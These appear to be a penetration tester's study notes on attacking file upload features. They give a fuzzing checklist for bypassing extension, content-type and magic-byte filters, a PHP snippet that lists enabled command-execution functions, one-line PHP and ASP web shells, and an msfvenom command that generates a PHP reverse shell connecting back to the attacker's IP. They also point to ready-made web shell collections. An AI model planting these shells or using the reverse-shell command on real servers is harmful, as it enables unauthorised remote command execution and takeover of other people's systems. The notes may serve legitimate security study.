 
## Methodology:
1. fuzz allowed extensions
2. attempt upload. or fuzz double extension
3. fuzz content-type header image/FUZZ VIA INTRUDER
4. fuzz mimetype try GIF, PNG HDI MAGIC byte and random metadata
5. figure out where the uploaded shell get saved so you can browse to it
6-   find out what the server .htaccess is configured to allow
6. upload webshell, try XXE, XSS later if all methods exhausted
# Checking for PHP disabled_functions first

I know that it might be kind of basic, but I’ve seen so many cases that hackers managed to upload some PHP file to the target app, but they didn’t manage to use them. The reason is usually because of a PHP feature in the _.ini_ file that simply disables “dangerous functions”, like _system, exec, shell_exec_ and other functions that run direct OS commands. This case is very popular in hosting environments.

I usualy use [Acunetix script](https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/) that checks for PHP functions that are not disabled and can be used to serve our webshell:

<?php  
print_r(preg_grep("/^(system|exec|shell_exec|passthru|proc_open|popen|curl_exec|curl_multi_exec|parse_ini_file|show_source)$/", get_defined_functions(TRUE)["internal"]));  
?>

This script gives us the best answers. Each function name that the script prints back on the screen is enabled and we can leverage for running OS commands or reading files (curl_exec) on the server.
for php: One good option for `PHP` is [phpbash](https://github.com/Arrexel/phpbash), which provides a terminal-like, semi-interactive web shell.

for other frameworks: [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) provides a plethora of web shells for different frameworks and languages, which can be found in the `/opt/useful/seclists/Web-Shells` directory in `PwnBox`.


`in certain cases, web shells may not work`. This may be due to the web server preventing the use of some functions utilized by the web shell (e.g. `system()`), or due to a Web Application Firewall, among other reasons. In these cases, we may need to use advanced techniques to bypass these security mitigations, but this is outside the scope of this module.
php:
```
<?php system($_request[cmd]); ?>
```
asp:
```
<% eval (request('cmd') %>
```
## Reverse Shells
One reliable reverse shell for `PHP` is the [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell) PHP reverse shell. 
 [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) for other frameworks like .net aspx asp, ...etc 
#### msfvenom:
```shell-session
msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
```
